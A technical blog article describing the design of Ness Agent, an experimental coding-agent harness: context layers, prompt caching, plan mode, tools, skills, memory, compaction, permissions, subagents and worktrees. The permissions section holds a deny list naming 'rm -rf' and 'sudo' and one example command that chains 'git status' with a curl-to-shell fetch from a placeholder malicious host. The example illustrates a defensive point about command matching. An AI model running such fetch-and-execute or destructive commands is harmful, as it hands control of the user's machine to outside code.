




Most discussions about coding agents begin with the model. With every new release, the first thing you see is the **Artificial Analysis Intelligence Index**. What is its intelligence score? What about token efficiency or cost? How long can it sustain an agentic trajectory? Or, increasingly, which company did the latest model supposedly hack?

The LLM is one part of the agent. The coding model does not clone a repository, decide which files to keep in context, expose tools to itself, preserve state across turns, ask for permission before executing `rm`, or remember what happened forty tool calls ago.

There needs to be a system around the model that does those things.

Recent evidence suggests that system matters almost as much as the model itself. [Claw-SWE-Bench](https://arxiv.org/pdf/2606.12344) compared coding-agent harnesses under controlled conditions. Across its sweeps, changing the model moved Pass@1 by 29.4 percentage points. Changing the harness while holding the model fixed moved it by 27.4 points. In one particularly striking result, the same GLM 5.1 backbone scored **19.1%** with a minimal adapter and **73.4%** with the full adapter.

A second recent analysis, _Dive into Claude Code_, describes the core of Claude Code as conceptually simple: call the model, execute its requested tools, feed the results back, repeat. Most of the engineering lives around that loop, in permissions, compaction, extensibility, subagents, context management and persistence.

Those observations were also the motivation behind **Ness Agent**, an experimental coding-agent harness I have been building in Python. It is my attempt to understand and implement the systems layer around the model: a reusable LangGraph-based SDK plus an opinionated coding CLI with tools, plan/act modes, prompt layering, skills, MCP, permissions, memory, reflection, compaction, subagents, persistence and Git-worktree isolation.

This article is about that implementation, inspired by systems such as Claude Code, OpenCode, Pi, OpenHands and Hermes.

---

### 1. Start With the Stupidest Agent That Works

Strip away the CLI, memory, skills, MCP, permissions, hooks and databases, and the remaining tool-using agent looks quite small.

Conceptually:

```python
messages = [user_message]

while True:
    response = model(messages, tools=tools)
    messages.append(response)

    if not response.tool_calls:
        return response

    for call in response.tool_calls:
        result = execute(call)
        messages.append(result)
```

This simple pattern descends from ReAct-style systems. For small tasks, it can work surprisingly well. Give a sufficiently capable model `read`, `edit` and `shell`, ask it to inspect a function, change three lines and run tests, and it may solve the task.

The problems appear when the trajectory gets longer.

The conversation now contains file contents, grep results, test logs, compiler errors and patches. The repository may have changed substantially since the first turn. MCP servers may expose dozens of external tools. The agent may need domain-specific skills. Eventually the context window approaches its limit. And once the model can run shell commands, a model error is no longer just a bad answer.

A naive tool loop has no concept of:

- stable versus volatile context,
- permission policy,
- durable versus episodic memory,
- deferred capabilities,
- execution interception,
- context compaction,
- session replay,
- or workspace isolation.

**The hard part is maintaining the environment in which that loop continues to behave usefully.**

That is the problem Ness tries to make explicit.

---

## Part I — From a Loop to a Runtime

### 2. The Architecture of Ness Agent

Ness is split into two major layers.



`src/ness_agent/` contains the reusable agent runtime. `src/ness_cli/` contains the coding-specific adapter: project paths, model configuration, worktree bootstrap, pricing and the interactive terminal experience.

The SDK separates its major components as well. `NessAgent` defines an agent configuration; `Session` owns execution of a thread; `PromptLayers` owns context construction; `PermissionStore`, `HookRunner`, `SkillLoader`, `MCPRuntime`, `ThreadStore` and `MemoryStore` remain independent components.

That gives the harness two broad kinds of policy.

**Agent-runtime policy:**

> How does a tool call become an execution?  
> How is conversation state checkpointed?  
> When does compaction occur?  
> How are permissions evaluated?

**Application policy:**

> Where does project configuration live?  
> Which skill roots do we trust?  
> How are credentials loaded?  
> What constitutes a repository?  
> How should approvals appear in the terminal?

Keeping those separate is what makes the runtime reusable outside the original CLI.

#### A turn through the runtime

At a high level, a Ness turn looks like this:



The actual runtime uses LangGraph rather than literally spelling this as a Python `while True`, but conceptually the loop has not changed much.

---

## Part II — Context Is the Architecture

### 3. Context Window Is Working Memory

It is tempting to think of an agent context as:

```text
system prompt
+
conversation
```

For a coding agent, it is closer to:

```text
identity
+ universal behavior
+ tool descriptions
+ user preferences
+ repository instructions
+ repository structure
+ current git state
+ todos
+ session memory
+ mode instructions
+ loaded skills
+ user conversation
+ tool outputs
```

All of those tokens compete for the same finite attention budget.

Anthropic's [context-engineering](https://www.anthropic.com/engineering/effective-context-engineering-for-ai-agents) work describes **context rot**: as context grows, models can become worse at retrieving and using the right information.

The engineering problem therefore is:

> **What information should be present, when should it appear, and how long should it remain?**

Ness organizes that problem into four layers.



L0 contains harness identity and universal rules. L1 contains profile-level context, the stable tool and skill catalogs, global `USER.md` preferences and project `NESS.md` conventions. L2 contains application-provided repository or domain context. L3 contains ephemeral working state.

The important property is **volatility**.

L0 changes extremely rarely. L1 changes occasionally. L2 usually remains stable throughout a session. L3 may change every turn.

That gives a general rule:

> **Put information at the lowest-volatility layer that can correctly own it.**

---

### 4. Prompt Caching Dictates the Architecture

Without caching, long-running agents repeatedly process much of the same prefix.

Prompt caching allows providers to reuse previously processed prefixes. _Don't Break the Cache_ measured **41–80% API cost reductions** and **13–31% improvements in time to first token** across providers in its experiments.

The constraint is that the prefix has to remain stable.

Anthropic describes Claude Code's prompt layout as static content first and dynamic content later, specifically because prompt caching works through prefix matching.

Consider this representation of a coding agent's current state:

```text
SYSTEM:

You are a coding agent.

Current branch: feature/auth
Git status: 3 modified files
Current mode: PLAN

Todo:
- inspect auth flow
- verify tests
```

Next turn, one todo disappears. Later the branch changes. Switch from plan mode to act mode, and it changes again.

Each early mutation makes everything after it less reusable from the cache.

#### L3: Ephemeral state as an append-only overlay

Ness therefore keeps volatile working state out of the stable system prefix.

That decision is visible directly in the implementation. The cached L0–L2 prefix is keyed by structural inputs such as active tools, project memory, the skill catalog and metadata:

```python
key = (
    tuple(sorted(t.name for t in tools)),
    git_available,
    hash(user_memory),
    hash(project_memory),
    hash(skill_catalog),
    tool_catalog_groups,
    deferred_mcp,
    _hash_metadata(metadata),
)
```

Notice what is missing: **L3**.

Branch state, todos, mode and episodic memory are expected to change frequently, so they do not participate in the stable-prefix cache identity.

L3 is instead rendered inside `<system-reminder>` tags and appended as an internally tagged tail `HumanMessage`. Fresh user turns receive the full current overlay; subsequent tool-loop iterations receive deltas. These messages exist in the checkpointed model context but are excluded from the semantic transcript, reflection input and durable CLI events.

Conceptually:

```text
[ L0: stable harness ]

[ L1: stable profile/project instructions ]

[ L2: session project context ]

[ conversation ... ]

<system-reminder>
  mode: PLAN
  branch: feature/auth
  dirty: true

  todos:
    - verify tests

  session-memory:
    ...
</system-reminder>
```

This preserves model visibility without repeatedly rewriting the stable prefix, matching Anthropic's recommendation to represent dynamic state through messages rather than system-prompt mutations.

---

### 5. Why Plan Mode Still Has Write Tools

The intuitive implementation of plan mode is:

```text
ACT MODE tools:
  read
  write
  edit
  shell
  grep

PLAN MODE tools:
  read
  grep
```

That appears clean: the model cannot even see the write tools while planning.

But changing the bound tool set also changes the provider-facing request and can invalidate the cached prefix.

Ness keeps the full session tool set bound in both modes and enforces plan mode at execution time. If the model requests a state-changing operation while planning, the runtime rejects it and feeds that rejection back into model state.

The mode instruction itself lives in L3.

A planning turn researches with read-only operations, may use a structured `question` tool when clarification materially changes the plan, and ends with one terminal plan. Switching back to act mode stages a one-shot instruction telling the model to turn the plan into todos before execution begins.

Ness also schedules a **pre-execution context-pressure checkpoint when transitioning plan → act**. If planning consumed too much context, the runtime can compact before entering the mutation-heavy phase.

Plan modes are common across coding agents. The interesting part, in my opinion, is where the state is represented and where it is enforced.

---

### 6. Tools: Capability Without Context Explosion

Ness groups its session capabilities into several broad tiers:

```text
Always available
  ├── todo
  ├── question
  └── skill_view

Core coding
  ├── read / write / edit / delete
  ├── search
  ├── web
  └── shell

Discovery
  ├── search_tools
  └── add_tools

Advanced
  └── spawn_subagent

Deferred
  └── mcp__<server>__<tool>
```

MCP introduces a scaling problem.

A single server might expose dozens of functions. Connect several servers and the agent can suddenly have hundreds of schemas. Eagerly sending all of them wastes context before the agent has done any useful work and can make tool selection itself harder.

Ness therefore treats MCP capabilities as deferred. When an MCP server is loaded, the names and short descriptions of its tools are added to the L1 catalog. The model can then use `search_tools` and `add_tools` to discover and bind only the relevant full schemas.

Claude Code has arrived at a similar constraint with deferred tool loading.

There is an important caveat: **adding a tool is itself a context mutation**. Deferred loading saves context, but mid-session additions can still reduce cache continuity. For tasks that depend heavily on a new integration, starting a fresh session with the needed capability available from the beginning is often cleaner.

There is also a more radical answer: **keep the primitive tool surface extremely small.**

Pi is a good example. Its default coding agent exposes only four tools: `read`, `write`, `edit` and `bash`. Everything else is treated as an extension rather than part of the core harness surface.

Ness currently takes a richer approach: filesystem operations, search, planning primitives, subagents and tool discovery are first-class model tools, while MCP capabilities are progressively exposed. A future version may move closer to the Pi model, allowing users to install tool packages from the CLI and explicitly bind, unbind or rebind tool groups between sessions.

---

### 7. Skills: Procedural Knowledge With Progressive Disclosure

Unlike tools, skills answer a different question:

> How should the agent perform a class of tasks?

A React repository may have local conventions for state management. A company may have a release procedure. Putting every procedure into the global system prompt would be wasteful.

Ness supports filesystem-backed skills, with each skill represented by a `SKILL.md` containing metadata and instructions. A one-line catalog is present in L1:

```text
react_component:
Create React components matching project conventions.
path: .ness/skills/react_component/SKILL.md

release:
Prepare and verify a release.
path: .ness/skills/release/SKILL.md
```

When the model decides a skill is relevant, it calls `skill_view` or reads the file. Only then does the complete procedure enter the conversation. Successfully viewed skills are represented in L3 as metadata, while their bodies remain in tool history. After compaction, that metadata lets the model discover and load them again.

The architectural flow for skills and MCP is similar:

> **Expose cheap metadata eagerly; expose expensive context on demand.**

```text
MCP tools

name + description in L1
          ↓
       discover
          ↓
   selected full schema
          ↓
      activate tool


skills

name + description in L1
          ↓
      skill_view
          ↓
      full SKILL.md
```

---

## Part III — Building Agents That Survive Long Sessions

### 8. Memory Is Not the Conversation

The 2026 survey _Memory for Autonomous LLM Agents_ describes agent memory as a **write → manage → read** loop: what gets written, how it is transformed, and when it returns to context.

Ness currently has three distinct persistent/contextual layers:

```text
Global USER.md
    │
    └── cross-project preferences
        loaded into L1

Project .ness/NESS.md
    │
    └── durable repository conventions
        loaded into L1

Per-session episodic memory
    │
    └── reflected observations
        loaded into L3
```

#### Durable project memory

`.ness/NESS.md` is analogous in spirit to `AGENTS.md` or `CLAUDE.md`.

It contains stable project instructions and conventions and can include existing instruction files:

```text
@AGENTS.md
@CLAUDE.md
```

Ness resolves these relative to the project, guards against cycles and escapes, and includes the assembled result in L1.

Crucially, reflection does not continuously rewrite this file. It remains human-authored unless the user explicitly asks the agent to edit it or requests an opt-in draft. If the agent chooses the wrong trajectory, automatically promoting that reflection into durable memory could reinforce the mistake.

#### Episodic session memory

Ness maintains a per-thread scratchpad under `.ness/runtime/sessions/`.

Reflection runs after enough new message tokens accumulate relative to the usable context budget. A separate reflection model extracts structured observations and appends at most two bullets per run. Those bullets return on later turns through L3.

There are two reflection triggers: the reflection-token ratio and session end. Reflection is optional; users may disable it because additional model calls can be inconvenient, and in coding tasks the current repository state may matter more than older memories.

---

### 9. Compaction Is Lossy Compression of Execution State

Every sufficiently long-running agent eventually hits the same physical constraint: the context window fills up. If the session is expected to continue, some part of its history eventually has to be dropped, externalized or compressed.

In Ness `v0.1.0`, I took the straightforward route: extract the older transcript and send it through a separate summarization call. I also experimented with selectively removing or compressing individual messages.

The problem was that this created an entirely new request shape, so the expensive conversation prefix could no longer reuse the prompt cache.

Anthropic describes exactly this failure mode in its Claude Code caching post. Its solution is a **cache-safe fork**: reuse the same system prompt, tools, context and conversation prefix as the parent request, then append the summarization instruction as one additional user message.

Ness `v0.2.0` uses the same idea.

When compaction is due, Ness starts from the last successfully completed bound main-model request—the same system message, provider session, tool definitions and native model history—and appends a human summary instruction. Failed model or schema attempts never replace this known-good parent binding.



A stripped-down version of the implementation:

```python
request = [
    *messages,
    HumanMessage(content=prompt),
]

response = await model.ainvoke(
    request,
    max_tokens=max_output_tokens,
)
```

Here `messages` and `model` are not a new summarization setup. They are the exact parent request and already-bound main model. Compaction therefore forks from the existing request prefix rather than starting a separate conversation.

#### When Ness compacts

The current policy uses pressure bands:

```text
context pressure < 70%
    normal operation

70% ≤ pressure < 80%
    warning

pressure ≥ 80%
    summary compaction
```

Compaction can happen earlier when necessary to preserve enough room for the compaction instruction and summary output itself.

More importantly, **the active turn is not summarized**.

The latest unanswered user message and its assistant/tool trajectory remain verbatim. Only completed history is compressed. The live trajectory may still contain exact file contents, command output or test failures needed for the next action.

After compaction, old L3 overlays are removed and a fresh overlay is rendered so stale working state does not survive merely because it appeared in historical context.

Cache-safe compaction solves the **cost and prefix-reuse problem**, not the harder information-loss problem. A summary can preserve the broad story while dropping exactly the details a coding agent later needs.

Factory's evaluation of context-compression methods on software-engineering trajectories makes this concrete. Artifact tracking was difficult across every method they tested: remembering which files had been created, modified or inspected scored only **2.19–2.45 out of 5**.

---

## Part IV — The Runtime Must Be Able to Say No

### 10. Permissions: The Model Proposes, the Runtime Decides

A coding agent is not a chatbot. If it hallucinates a fact, the answer may be wrong. If it hallucinates a shell command, the filesystem may be wrong.

The runtime therefore cannot treat model output as authority.

Ness uses explicit permission rules with three broad outcomes: `allow`, `deny` and `ask`.

Project rules live in `.ness/permissions.json`:

```json
{
  "allow": [
    "read:*",
    "grep:*",
    "shell:run:git status*"
  ],
  "deny": [
    "shell:run:rm -rf*",
    "shell:run:sudo*"
  ],
  "ask": ["*"]
}
```

Deny rules win over allow rules, and persistent and session-level decisions have explicit precedence.

Suppose we allow:

```text
shell:run:git status*
```

A naive prefix matcher might also accept:

```bash
git status && curl malicious.example/script | sh
```

Ness therefore refuses to let shell allow/deny prefixes automatically match commands containing unquoted operators such as `;`, `&&`, pipes, redirections or newlines. Those commands fall through to approval instead.

#### Hooks to augment execution

```text
MODEL
  │
  │ proposes action
  ▼
PERMISSION POLICY
  │
  ├── denied ──────────────► rejection
  │
  ▼
RUNTIME HOOKS
  │
  ├── veto / intercept ────► rejection / augmentation
  │
  ▼
EXECUTOR
```

Hooks answer:

> Should this particular execution be intercepted or augmented?

As of `v0.2.0`, Ness has two hooks: `preToolUse` and `postToolUse`. Their behavior is configured through `.ness/hooks.json`, allowing the runtime to intercept calls or execute scripts before or after tool execution.

### 11. MCP: Extensibility Creates a Trust Boundary

Adding an MCP server is not merely making more tools available to the model. It is closer to installing an executable integration.

Ness separates MCP transport from project trust policy, and the CLI fingerprints configured servers.

When an interactive session encounters a changed non-empty MCP configuration, it shows a redacted summary and asks the user to trust that exact configuration. Changing a command, endpoint, credentials or server set requires trust again. Headless mode does not silently approve an unknown server, even under `--yolo`; untrusted servers are skipped.

_Permission to CALL an MCP tool ≠ Trust to START the MCP server._

---

## Part V — Parallelism Solves an Isolation Problem

### 12. Subagents Give You More Context Windows

Subagents are primarily useful for **parallel investigation** and **context isolation**. Some coding agents go further and allow child agents to perform parallel task execution as well.

Each child receives its own context window, while the parent receives the result rather than the entire intermediate trajectory. In that sense, a subagent is partly a **context-window partitioning primitive**.

Ness's implementation is deliberately conservative.

Today, each subagent is effectively a separate model call with a filtered, read-only tool surface. The child investigates independently and returns a structured result to the parent instead of becoming a long-lived participant in the parent's execution graph.

Write operations, shell execution, MCP tools, `todo`, nested subagents and other state-changing capabilities are rejected. The parent waits for the batch to complete, fail or time out and receives structured results containing status, duration and output.

The reason is that **parallel reasoning and parallel execution are very different problems**.

Once a child can mutate files or invoke external systems, isolation has to extend beyond context into workspace, permissions and state.

So execution-capable subagents would require a different architecture. Rather than treating a child as a disposable model call, I would likely make it a persistent extension of the main agent graph, with its own session ID linked to the parent thread. That would give the child independent state, permissions and workspace boundaries while preserving explicit parent-child lineage.

For now, Ness uses subagents as parallel researchers rather than parallel workers.

### 13. Git Worktrees Solve Workspace Isolation

Two agents can have completely separate model contexts and still interfere with each other if they share the same checkout.

Git worktrees provide a lightweight way to give each agent its own branch and filesystem state without cloning the repository again.

Ness supports worktree-backed sessions for exactly this reason:

```text
repo
├── main
├── worktree/auth
└── worktree/frontend
```

Git worktrees themselves are not new. What is interesting is their role in coding-agent architecture: they become a **workspace-isolation primitive**.

```text
context isolation    → what the model sees
runtime isolation    → what an agent's processes/tools can affect
workspace isolation  → what code state an agent can mutate
```

### 14. A Transcript Is Not Enough

A rendered chat transcript does not capture everything that happened during an agent run. Tool calls, failures, permission decisions, costs, subagent runs and resumable state all need their own representation.

Ness therefore persists sessions in a SQLite-backed thread store, with append-oriented event payloads and metadata for cost, turns, summaries and subagent runs.

This gives the runtime a few useful properties:

- **Resume:** a thread can continue after the process exits.
    
- **Fork:** Ness can branch from an earlier human-message point while copying conversation state and session memory.
    
- **Debug:** model failures, tool failures and permission rejections remain distinguishable instead of being flattened into chat text.

A long-running agent needs both _conversation history and execution history_; they serve different purposes.

### 15. Most Agent Features Are Really Context Management

By this point, many mechanisms that look like separate agent features start to converge.

Prompt layers control **where** information lives. Skills and deferred tools control **when** it enters context. Memory controls **what survives**. Compaction controls **what gets compressed**. Subagents control **what gets isolated into another context**. Prompt caching adds one more constraint: **how stable that context remains over time**.

This is the conceptual core of Ness for me:

> **A coding harness is largely a context lifecycle manager attached to an execution runtime.**

The important question is no longer just _what should the model know?_ It is also _when should it know it, how long should it keep it, where should it live, and what happens when that information changes?_

That is why agent architecture starts to look much closer to systems engineering than traditional prompt engineering.

---

## Part VI — What Ness Does Not Solve

### 16. What I Still Don't Know

It would be easy to present all of these architectural choices as improvements. I cannot make that claim yet.

Ness has tests and architectural rationale, but it has not been benchmarked rigorously enough to say that L3 overlays improve task success by X, reflection helps by Y, or this compaction strategy is better than another by Z. Those are empirical questions.

Most of the current design came from reading recent agent research, studying production systems such as Claude Code, and combining those ideas with my own choices around extensibility and runtime structure. Some of those choices will almost certainly matter more than others.

There are also obvious weaknesses:

- **Compaction is still lossy.** Cache-safe summarization preserves cache efficiency, not necessarily execution state.
    
- **Reflection is heuristic.** The write policy for memory is hand-designed rather than learned or benchmarked.
    
- **Deferred tools depend on good metadata.** A capability that cannot be discovered is effectively unavailable.
    
- **Cache-aware design inherits provider assumptions.** Different APIs may reward different prompt layouts.
    
- **Subagents trade context isolation for more tokens and coordination.**
    
- **Permissions become much harder in remote execution**, where filesystems, credentials, networks and long-running approvals become part of the authorization problem.

So for now, I think of Ness less as a proven optimal harness and more as an experimental architecture built from a set of informed bets.

The open question is which of those bets actually matter.

### 17. If I Were to Evaluate the Harness

If I do evaluate Ness more rigorously, I would want to measure both **task quality** and **systems behavior**.

At minimum:

- task success / test pass rate
- model turns and tool calls
- repeated file reads
- context growth and compaction frequency
- cached vs uncached tokens
- total cost and latency
- whether important state survives compaction

Some of these experiments are expensive enough that they may make more sense collaboratively. If a research lab or model/infrastructure provider is interested in evaluating harness-level design choices, I'd be open to running the experiments together.

One idea I am exploring is a separate **Ops/evaluation package** for tuning the harness itself.

Instead of treating prompts, tool descriptions, overlay contents and memory policies as fixed configuration, the package could evaluate variants against benchmark datasets—or a user's own representative workloads—and use an LLM judge alongside systems metrics to score resulting trajectories.

Conceptually:

```text
tasks / user workloads
        ↓
harness variants
  ├── prompts
  ├── tool descriptions
  ├── overlays
  ├── memory policy
  └── compaction policy
        ↓
agent trajectories
        ↓
LLM judge + systems metrics
        ↓
candidate configuration
```

That would be closer to **tuning the harness around a user's workload** than benchmarking one static agent.

A stronger external benchmark, such as Terminal-Bench, could then be used as a separate sanity check rather than as the optimization target itself.

---

## Conclusion

Building Ness made one thing increasingly obvious to me: the model is only one part of the coding agent.

Context layout affects cache behavior. Tool design affects capability and token usage. Memory and compaction determine whether long sessions remain coherent. Permissions, subagents and worktrees determine how that reasoning can safely interact with real state.

None of these mechanisms are unique to Ness, and I do not yet have the benchmark evidence to say which of my implementation choices are better than the alternatives. In many cases, I borrowed ideas from recent research and production agents and adapted them around a more extensible SDK and CLI architecture.

The interesting engineering problem is therefore no longer just building a model/tool loop. It is designing the runtime around that loop: what context enters it, which capabilities are exposed, what state survives, what gets compressed, and what the model is actually allowed to do.

Ness is my current attempt to explore that design space.

---

### References

#### Ness Agent

- Ness Agent repository and README — project overview, SDK/CLI split and current capabilities.
- Ness Agent architecture — SDK boundary, context layers, agent modes, memory and compaction.
- Ness CLI documentation — permissions, skills, MCP, subagents, worktrees and persistence.
- Ness Agent SDK guide — public runtime abstractions and embedding model.

#### Agent harnesses and architecture

- Zheng et al., _Claw-SWE-Bench: A Benchmark for Evaluating OpenClaw-style Agent Harnesses on Coding Tasks_, 2026.
- Liu et al., _Dive into Claude Code: The Design Space of Today's and Future AI Agent Systems_, 2026.
- OpenHands, _The OpenHands Software Agent SDK_, 2025/2026.

#### Context and caching

- Anthropic, _Lessons from building Claude Code: Prompt caching is everything_, 2026.
- Anthropic, _Effective context engineering for AI agents_, 2025.
- Lumer et al., _Don't Break the Cache: An Evaluation of Prompt Caching for Long-Horizon Agentic Tasks_, 2026.

#### Skills, memory and compression

- Anthropic, _Equipping agents for the real world with Agent Skills_, 2025.
- _Memory for Autonomous LLM Agents: Mechanisms, Evaluation, and Emerging Frontiers_, 2026.
- Factory, _Evaluating Context Compression for AI Agents_.
- Kang et al., _ACON: Optimizing Context Compression for Long-horizon LLM Agents_, ICML 2026.